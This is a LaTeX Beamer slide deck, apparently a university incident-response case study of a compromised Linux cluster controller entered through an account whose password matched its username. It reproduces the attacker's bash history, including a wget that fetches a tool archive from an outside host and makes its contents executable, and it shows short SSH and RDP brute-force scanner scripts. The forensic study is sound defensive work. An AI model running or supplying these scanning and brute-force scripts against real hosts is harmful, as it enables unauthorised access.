\documentclass[xcolor=x11names,compress]{beamer}

% -----------------------------------------------------------------------------------------
% The bit you should be interested in
%
% \usetheme[infolabcolours,num,forcecurve]{SmartSerif}
% \usetheme[bgcurve]{SmartSerif}
% \usetheme[num]{SmartSerif}
% \usetheme[bannerline=red]{SmartSerif}
% \usetheme[bannerbg=black]{SmartSerif}
% \usetheme[]{SmartSerif}
% 

\usetheme[nocurve]{SmartSerif}


% -----------------------------------------------------------------------------------------
% Other things for the sample
\usepackage{hyperref}

\usepackage{listings}

\usepackage{graphicx}
\graphicspath{ {./images/} }

% -----------------------------------------------------------------------------------------

\title{Server Compromise Case Study}
\author{Stephen Wattam \& Rob Larson}
\institute[2013]{Lancaster University}
\date{\tiny \today}

\begin{document}

\maketitle

\section*{Outline}
\frame{\tableofcontents}

% -----------------------------------------------------------------------------------------
% -----------------------------------------------------------------------
% Background
% -----------------------------------------------------------------------



\section{Background}

\subsection{Introduction}

\frame{\frametitle{The Network}
\begin{itemize}
    
    \item Compromised machine was a controller for a test cluster
    \vspace{10pt}
    \item Small network with manager and slave nodes
    \vspace{10pt}
    \item Test hadoop setup, services on LAN side

        % Topology picture
    \begin{figure}[p]
        
\includegraphics[width=0.5\textwidth]{overview.png}
    \end{figure}


\end{itemize}
}




\frame{\frametitle{Machine \& OS}
\begin{itemize}
    
    \item Ubuntu MAAS
        % mention this is why people have ubuntu VMs
    \vspace{10pt}
    \item Two NICs, one on university network
        % forward and backward facing (LAN, WAN)
    \vspace{10pt}
    \item Machine is old commodity machine
        %

\end{itemize}
}

\subsection{Situation}
\frame{\frametitle{Situational Overview}
\begin{itemize}
	\item System install: 17th November
    \vspace{10pt}
	\item Notification of breach: 24th November
    \begin{itemize}
        \item Failed login/changed password
        \item Notification by ISS/external
    \end{itemize}
    \vspace{10pt}
    \item Disks imaged, mounted read-only
\end{itemize}
}


% -----------------------------------------------------------------------
% Get people to look at logs 
% -----------------------------------------------------------------------

\section{Investigation}
\frame{\frametitle{Investigation}
\begin{itemize}
    \item Stuff left over in \texttt{\~{}daniel/}
        \begin{itemize}
            \item \texttt{~/.bssh}
            \item \texttt{~/.vogz}
        \end{itemize}
    \vspace{10pt}
    \item System logs (bash, auth, squid)
    \vspace{10pt}
    \item Resources pointed to by the above
\end{itemize}
}

\subsection{Logs}
\frame{\frametitle{Logs}

File: \texttt{logs.tar.gz}
    \vspace{10pt}
\begin{itemize}
    \item \texttt{\_bash\_history} contains the command log
    \vspace{10pt}
    \item \texttt{auth.log} contains the system auth log
    \vspace{10pt}
    \item \texttt{edited\_files\_in...} contains all files edited since November 23rd
    \vspace{10pt}
    \item \texttt{var\_log\_squid3} contains \texttt{/var/log/squid3}.
\end{itemize}
}

\frame{\frametitle{Logs}
\begin{itemize}
    \item Logins at 2:21, 3:03 and 15:20
    \vspace{10pt}
    \item Bash history downloading archives/running \texttt{screen}
    \vspace{10pt}
    \item Entries for \url{www.adulttraffictrade.net} in the SQUID logs
\end{itemize}
}

% Explain for those not familiar with bash
\begin{frame}[fragile=singleslide]\frametitle{Bash Log}
\begin{verbatim}
w
ls
passwd
ifconfig
cat /proc/cpuinfo
wget http://descargarcs.net63.net/fv/ghh.tgz
tar -zxf ghh.tgz
rm -rf ghh.tgz
chmod +x *
cd .vogz
chmod +x *
screen
\end{verbatim}
\end{frame}


% Explain for those not familiar with bash
\begin{frame}[fragile=singleslide]\frametitle{Curiosities}
\begin{itemize}
    \item Why not delete the bash history?
    \vspace{10pt}
    \item Why not delete login entries from the log?
    \vspace{10pt}
    \item Why change the password?
\end{itemize}
\end{frame}


\subsection{Files}
\frame{\frametitle{BSSH}
% Any files edited after 23rd

File: \texttt{\_bssh.tar.gz}
\begin{itemize}

    \item Left over in \texttt{\~{}daniel}
    \vspace{10pt}
    \item A quick google shows the docs, to be found in \texttt{hackforums/}

\end{itemize}
}


\frame{\frametitle{Other Files}
    \visible<1->{
        So, what is at \\
        \url{http://descargarcs.net63.net/fv/ghh.tgz} ?
    }

    \vspace{10pt}
    \visible<2>{
        File: \texttt{\_vogz.tar.gz}
        \begin{itemize}
            \item Another scanning tool
            \vspace{10pt}
            \item Not found on disk, perhaps deleted after execution?
        \end{itemize}
    }
}


% -----------------------------------------------------------------------
% SSH scan analysis
% -----------------------------------------------------------------------
\section{Software 1}
\subsection*{SSH Scanner}
\frame{\frametitle{SSH Scanner}
\begin{center}
	File: \texttt{\_bssh.tar.gz}	
\end{center}
Three binaries:
\begin{itemize}
	\item scan: script to control pscan
    \vspace{10pt}
	\item pscan: port scanning tool generates list of open ports used by ssh2
    \vspace{10pt}
	\item ssh2: attempts login at produced list.
    \vspace{10pt}
	\item core dumps, nobash, screen
	\end{itemize}
}


\frame[fragile=singleslide]{\frametitle{Scanner Script}
\small
\begin{lstlisting}[language=bash]
#!/bin/bash
############### Config ###############
pscanThreads=1000
ssh2Threads=250
port=22
pscanTimeout=1
ssh2Timeout=3
############## Running ##############
rm -rf scan.log session.txt
./pscan $1 $port $pscanThreads $pscanTimeout unlimited
sleep 2
./ssh2 $ssh2Threads $port $ssh2Timeout unlimited 
\end{lstlisting}
}



\frame{\frametitle{SSH Scanner findings}

Tool takes as input:
\begin{itemize}
	\item pass.txt: list of common username / password combinations.	
\end{itemize}
	
Attacker may configure:
\begin{itemize}
	\item PscanThreads: speed of IP scanning
	\item ssh2Threads: speed of brute-forcing
\end{itemize}

Tool generates: 
\begin{itemize}
	\item vuln.txt: where good roots are stored
	\item nobash.txt where no-logins are stored
\end{itemize}


}


% -----------------------------------------------------------------------
% RDP scan analysis
% -----------------------------------------------------------------------
\section{Software 2}
\subsection*{ghh.tgz: RDP Scanner}
\frame{\frametitle{RDP Scanner}

File: \texttt{\_vogz.tar.gz}
\begin{center}
    \item \url{http://descargarcs.net63.net/fv/ghh.tgz} contains an RDP scanner
    \vspace{10pt}
    \item We don't know if this was run or not
\end{center}
}


\frame[fragile=singleslide]{\frametitle{Scanner Script}
\small
\begin{lstlisting}[language=bash]
#!/bin/bash
LIST=$1
for i in $LIST; do
	./rdp -h $i.0.0/16 -u rdp.users -p rdp.pass \
          -t 6 -c 20 -o rdp.log -d -k -C &
done
\end{lstlisting}
}


% -----------------------------------------------------------------------
% Our findings from report/summary 
% -----------------------------------------------------------------------
\section{Our Findings}
\frame{\frametitle{Summary}
\begin{itemize}
    \item The user connected for the first time at 2:21 from 104.131.165.104, and immediately disconnected
    \vspace{10pt}
    \item 3:03 - 9:34 from 79.115.46.59 (Bucharest), presumably to do the RDP scan
    \vspace{10pt}
    \item 15:20 - 10:29 the next day from 79.115.46.59, presumably running the SSH scan
    \vspace{10pt}
    \item At 10:29 the machine was rebooted, kicking the attacker
\end{itemize}
}


\frame{\frametitle{Summary II}
\begin{itemize}
    \item The vulnerability was the `daniel' account, which had the password `daniel'
    \vspace{10pt}
    \item We don't know if the RDP scanner worked, or what it found
    \vspace{10pt}
    \item We don't know the significance, if any, of the SQUID logs.
\end{itemize}
}


\frame{\frametitle{Resources / References}
Tools used:
\begin{itemize}
    \item Rootkit detection: e.g. rkhunter, chkrootkit
    \vspace{10pt}
    \item \texttt{extundelete}: attempting to recover lost files
    \vspace{10pt}
\item \texttt{find / - newermt "Nov 23"} - identify files changed since attack
\end{itemize}			

Reference:
\begin{itemize}

    \item Sectools.org - Network security / pentesting tools
    \vspace{10pt}
    \item Report of activity (File: \texttt{terse.ly/misc/files/ssh\_report.pdf}) 
\end{itemize}
}

% -----------------------------------------------------------------------------------------
\end{document}
